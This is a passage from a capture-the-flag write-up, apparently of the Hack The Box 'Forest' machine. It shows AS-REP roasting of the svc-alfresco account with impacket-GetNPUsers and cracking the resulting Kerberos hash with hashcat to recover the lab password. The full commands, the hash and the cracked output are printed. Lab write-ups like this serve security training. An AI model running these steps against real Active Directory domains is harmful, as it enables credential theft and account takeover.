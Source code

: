 Surprisingly, there's an account that I kept missing : `svc-alfresco`.
Let's re-do AS-REP Roasting after adding it to `usernames.txt`.

### AS-REP Roasting

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.10.10.161 -usersfile usernames.txt htb.local/ -outputfile hashes.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User forest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b3af7ca7235c741a8f73f5209f8faaef$bfee014f4bbae36009851024ddec8eb1ef6319c911a734a6eea7db0580896d47aad9391d37a8fd9ee1f9f1283e8fab2d1a1f0cd8db169aa608ad1d6c84c31f8ad8c32f12bbaf04357f67dc6ced49afcf94d089ba177b88cc1de8816ef7af82ef21b42048e67989f3ddcf616e3ba907870ebdccb8185f0136f9e8a9112321f176e38693eabbf5b399038db164e8537f979f03f6be5590c46bdcc2ccb9d5422f48c36862bb234e9fa29d9a45ce3a328fd4706df80d3af7d639557e6d5fc918f49c2a520fc8a71173fd440c635b55dd3eaa6eb4cc3011922ecd7660fc85194fe1551d84f8547709
[-] invalid principal syntax

```

Bingo! AS-REPRoasting works, and I can retrieve `svc-alfresco`'s kerberos hash.
Let's crack this hash using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:b3af7ca7235c741a8f73f5209f8faaef$bfee0
<SNIP>
47709:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:b3af7ca7235c74...547709
Time.Started.....: Mon Dec  2 15:51:16 2024 (2 secs)
Time.Estimated...: Mon Dec  2 15:51:18 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
<SNIP>
```
